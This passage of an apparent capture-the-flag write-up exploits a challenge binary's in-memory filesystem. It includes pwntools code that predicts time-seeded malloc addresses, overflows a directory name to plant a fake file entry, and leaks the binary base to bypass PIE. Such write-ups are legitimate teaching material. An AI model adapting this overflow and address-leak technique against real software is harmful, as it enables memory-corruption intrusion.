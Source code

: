 ```c
  if ( v7->size )
  {
    result = 0LL;
    do
    {
      v13 = result + v7->data;
      result = (result + 1);
      *v13 ^= 0x37u;
    }
    while ( v7->size > result );
  }
  return result;
}
```

As you can see the user directory is created with new_dir as a regular directory (with the parent directory = home_entry).

The user_entry address is also the first address returned by malloc.
We can predict it in the following manner:

```python
libc = CDLL('libc.so.6')
libc.srand(int(time.time()))

malloc = lambda : 0x40000000 | (libc.rand() & 0x01fffffff)
user_entry_addr = malloc()
log.info('Predicted user entry @ 0x{:08x}'.format(user_entry_addr))
```

We must do this also for the other addresses returned by malloc that we want to predict simply invoking the malloc lambda in the script the same times as malloc is called in the binary.

The home_entry structure is in `.data`, so we can use the address of the user directory as the fake entry to leak the home_entry address and bypass PIE.

So let’s write a piece of code to leak PIE (using pwntools):

```python
prog = log.progress('Putting fake leak entry')
leak_entry  = p64(0) # parent_directory, don't care
leak_entry += p32(2) # type = FILE_ENTRY
leak_entry += 'leak'.ljust(20, '\x00') # name
leak_entry += p64(8) # size = 8
leak_entry += p64(user_entry_addr) # data = user_entry_addr->parent_directory
# printing the content of leak will print the home_entry address (in .bss)
put_file('leak_entry', leak_entry)
prog.success()

prog = log.progress('Overflowing directory (leak)')
dirname  = 'A' * (20 + 8 + 17*8) # name + size + 17 entry*
dirname += p32(leak_entry_addr) # 18th fake entry
send_cmd('mkdir ' + dirname)
prog.success()

prog = log.progress('Triggering directory reallocation (leak)')
trunc_dirname = 'A'*20 + '\x10' # ls command list the directory with a truced name
send_cmd('cd ' + trunc_dirname)
# the first 17 entries are zeored with memset, we must insert dummy entries to reach the 18th entry
for i in range(17):
    put_file(str(i), 'A')
prog.success()

prog = log.progress('Leaking binary base')
leak = get_file('leak')
base = u64(leak) - 0x208be0
prog.success('@ 0x{:012x}'.format(base))
```